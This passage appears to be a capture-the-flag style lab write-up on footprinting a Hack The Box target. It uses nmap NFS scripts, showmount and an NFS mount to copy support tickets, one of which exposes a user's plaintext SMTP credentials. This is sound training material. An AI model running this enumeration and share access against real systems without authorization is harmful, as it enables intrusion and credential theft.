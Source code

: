   * NFS enumeration:

    ```sh
    sudo nmap --script nfs* 10.129.202.41 -sV -p111,2049
    ```
  
  * The NSE script ```nfs-showmount``` shows that we have a share 'TechSupport' - and this includes some tickets in .txt form:

    ```sh
    showmount -e 10.129.202.41
    # we can try to access this TechSupport share

    sudo mount -t nfs 10.129.202.41:/ ./targetbox/ -o nolock

    cd targetbox/

    tree .
    # we get an error related to permissions

    sudo tree .
    # this works

    # we can copy these to our local directory
    mkdir ~/tickets

    sudo cp -r TechSupport/ ~/tickets

    sudo ls -la ~/tickets/TechSupport
    # we have several tickets, but only one has non-zero size

    sudo cat ~/tickets/TechSupport/ticket4238791283782.txt
    # enumerate ticket

    # unmount share
    cd ..

    sudo umount ./targetbox
    ```
  
  * From the ticket file, we get an user 'alex' with email <alex.g@web.dev.inlanefreight.htb>; furthermore, we get a smtp web config file:

    ```ini
    smtp {
        host=smtp.web.dev.inlanefreight.htb
        #port=25
        ssl=true
        user="alex"
        password="lol123!mD"
        from="alex.g@web.dev.inlanefreight.htb"
    }
